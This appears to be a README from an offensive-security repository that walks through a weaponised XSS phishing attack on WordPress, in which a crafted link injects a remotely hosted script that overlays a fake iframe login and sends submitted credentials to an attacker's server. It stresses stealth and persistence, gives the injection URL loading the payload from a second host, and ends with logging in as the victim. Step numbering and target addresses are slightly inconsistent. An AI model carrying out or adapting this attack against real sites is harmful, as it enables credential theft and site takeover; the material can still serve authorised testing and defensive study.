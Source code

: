 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.10

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.10/wp-login.php";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginWP.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/phishLoginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

8. [post exploit] attacker logs into target WordPress site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/c2302029-d0ef-4450-b726-09add6cdaf2f
